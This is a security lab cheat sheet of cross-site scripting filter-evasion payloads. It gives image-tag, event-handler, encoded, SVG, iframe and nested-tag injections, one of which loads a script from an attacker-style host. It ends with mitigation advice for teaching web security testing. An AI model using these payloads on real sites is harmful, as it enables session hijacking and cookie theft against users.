 # Lab 12: XSS Evasion Techniques Cheat Sheet

**Objective:**  
This lab provides a cheat sheet for **Cross-Site Scripting (XSS) evasion techniques**. These are methods used by attackers to bypass web application firewalls (WAFs) and other security filters designed to prevent XSS attacks.

---

### **Cheat Sheet: XSS Evasion Techniques**

---

#### **1. Basic XSS Injection (Commonly Blocked by Filters)**
The simplest form of an XSS attack, which is often detected by security mechanisms:
```html
<SCRIPT SRC="http://malicious.h4cker.org/xss.js"></SCRIPT>
```

---

#### **2. Image Tag-Based XSS Injection**
The `<img>` tag is often used in various forms to evade basic filters:
```html
<img src="javascript:alert('xss');">
<img src=javascript:alert('xss')>
<img src=javascript:alert(&quot;XSS&quot;)>
<img src=javascript:alert('xss')>
```

---

#### **3. HTML Event Handler Injection**
Attackers use HTML attributes such as `onmouseover` to trigger scripts when an event occurs, like hovering over a link:
```html
<a onmouseover="alert(document.cookie)">This is a malicious link</a>
<a onmouseover=alert(document.cookie)>This is a malicious link</a>
```

---

#### **4. Hexadecimal Character Encoding**
Using hexadecimal representations of characters can bypass some XSS filters. This example uses hexadecimal encoding to inject an alert function:
```html
<img src=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&
#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
```

---

#### **5. US-ASCII Encoding**
By converting characters into US-ASCII encoding, attackers can bypass certain filters:
```html
¼script¾alert(¢XSS¢)¼/script¾
```

---

#### **6. SVG (Scalable Vector Graphics) Injection**
Embedding an SVG file with an encoded script can also be used to bypass filters:
```html
<EMBED SRC=”data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH
A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcm
cvMjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3
hsaW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaW
dodD0iMjAwIiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdC
I+YWxlcnQoIlhTUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" 
AllowScriptAccess="always"></EMBED>
```

---

#### **7. XSS Through `srcdoc` in Iframes**
An iframe can also be manipulated to execute malicious scripts:
```html
<iframe srcdoc="<script>alert('XSS')</script>"></iframe>
```

---

#### **8. Bypassing Filters with Comments and Whitespaces**
Introducing comments or whitespaces into the code can trick XSS filters:
```html
<scr<script>ipt>alert('XSS')</scr<script>ipt>
<scr ipt>alert('XSS')</scr ipt>
```

---

#### **9. URL Encoding**
Using URL encoding can often bypass basic XSS filters. This technique encodes characters into their URL-encoded form:
```html
<script>alert('XSS')</script> becomes:
%3Cscript%3Ealert('XSS')%3C/script%3E
```

---

#### **10. Breaking out of HTML with Unescaped Quotes**
If quotes are not escaped, an attacker can break out of the HTML attribute and inject their own script:
```html
<input value="test" onmouseover="alert('XSS')">
```

---

### **Additional Resources:**
- OWASP XSS Filter Evasion Cheat Sheet: [https://owasp.org/www-community/xss-filter-evasion-cheatsheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
- GitHub XSS Vectors Collection: [https://github.com/The-Art-of-Hacking/h4cker/blob/master/web_application_testing/xss_vectors.md](https://github.com/The-Art-of-Hacking/h4cker/blob/master/web_application_testing/xss_vectors.md)

---

### **Conclusion:**
These XSS evasion techniques demonstrate how attackers bypass common security filters and inject malicious code into web applications. It's crucial to apply strong input validation, output encoding, and use security mechanisms like Content Security Policy (CSP) to mitigate these risks.